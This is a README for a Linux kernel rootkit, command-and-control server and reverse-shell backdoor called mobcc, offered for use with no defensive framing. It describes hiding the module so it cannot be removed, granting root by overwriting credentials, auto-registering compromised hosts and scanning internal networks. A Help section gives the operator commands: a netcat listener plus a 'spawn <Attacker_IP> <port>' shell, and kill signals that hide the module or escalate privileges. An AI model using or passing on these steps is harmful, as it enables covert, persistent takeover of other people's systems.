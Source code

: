# mobcc

Mob CC is a framework containing a Linux kernel rootkit, C2 server and Reverse shell with network scanning capabilities.


Add Devices using the below link. (If you are using the kernel module then this step will be automatically done by that.)

Select the added Device and start sending commands to the target system.

As you may directly get root access but incase you don't get root access then check commands to gain root privilege.

You can also spawn a new shell and transfer it to any other attacking system by giving the IP of the attacking system.

---

## Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer.h is a helping module which is basically trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide itself from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor which can be used to connect to a C2 server.

## Command & Control server:
  - Add new devices to the database by autocollecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and recieve response from the target system via reverse shell.
  - Provide list of all the commands and response from every compromised system.
  - Handle requests from multiple compromised systems simultaneously.

## Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.

---

# Note:
Note that if you kill the reverse shell process then you have to install the kernel rootkit module again into the target system.

No one can remove the module if it's hidden.

---

# Help

To spawn a new shell from different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'

To scan the internal network from the target system. 'scan'

To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'

To toggle between hide and show the kernel module. 'kill -63 1'

To gain root privilege in the target machine from any other attacking machine using reverse shell like above.'kill -64 1'

---


Resource: Linux Kernel rootkit
https://xcellerator.github.io/posts/linux_rootkits_01/
